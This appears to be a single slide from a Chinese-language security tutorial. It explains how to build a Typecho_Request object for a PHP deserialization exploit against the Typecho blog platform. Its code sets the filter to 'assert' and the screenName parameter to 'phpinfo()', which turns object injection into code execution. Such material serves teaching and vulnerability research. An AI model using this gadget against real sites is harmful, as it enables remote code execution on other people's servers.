

思考：如何定义类Typecho_Request 并成功利用？
如何充分利用screenName属性？
通过构造函数实现两个私有变量的赋值
（1）Filter[0]是要调用的函数；（2）screenName是要输入的参数。
| class Typecho\_Request { private $\_params = array(); private $\_filter = array(); public function \_\_construct(){ $this->\_params['screenName'] = 'phpinfo()'; $this->\_filter[0] = 'assert'; } } |
| --- |